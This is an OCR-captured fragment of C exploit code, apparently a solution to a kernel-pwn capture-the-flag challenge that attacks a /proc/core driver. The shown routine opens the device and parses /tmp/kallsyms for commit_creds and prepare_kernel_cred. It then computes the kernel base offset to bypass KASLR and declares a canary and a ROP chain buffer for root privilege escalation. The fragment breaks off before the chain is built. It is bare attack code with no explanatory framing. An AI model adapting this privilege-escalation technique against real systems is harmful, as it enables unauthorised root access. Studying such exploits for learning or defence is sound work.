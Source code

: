 ```c
void core_copy(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

/**
 * Exploitation
**/

#define COMMIT_CREDS 0xffffffff8109c8e0

void exploitation(void)
{
    FILE *ksyms_file;
    int fd;
    char buf[0x1000], type[0x10];
    size_t addr;
    size_t canary;
    size_t rop_chain[0x100], i;

    log_info("[*] Start to exploit...");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if(fd < 0) {
        log_error("[x] Failed to open the /proc/core !");
        exit(EXIT_FAILURE);
    }

    /* get addresses of kernel symbols */

    log_info("[*] Reading /tmp/kallsyms...");

    ksyms_file = fopen("/tmp/kallsyms", "r");
    if(ksyms_file == NULL) {
        log_error("[x] Failed to open the sym_table file!");
        exit(EXIT_FAILURE);
    }

    while(fscanf(ksyms_file, "%lx%s%s", &addr, type, buf)) {
        if(prepare_kernel_cred && commit_creds) {
            break;
        }

        if(!commit_creds && !strcmp(buf, "commit_creds")) {
            commit_creds = addr;
            printf(
                SUCCESS_MSG("[+] Successful to get the addr of commit_cread: ")   
        	   "%lx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred")) {
            prepare_kernel_cred = addr;
            printf(SUCCESS_MSG(
                "[+] Successful to get the addr of prepare_kernel_cred: ")
        	   "%lx\n", prepare_kernel_cred);
            continue;
        }
    }

    kernel_offset = commit_creds - COMMIT_CREDS;
    kernel_base += kernel_offset;
```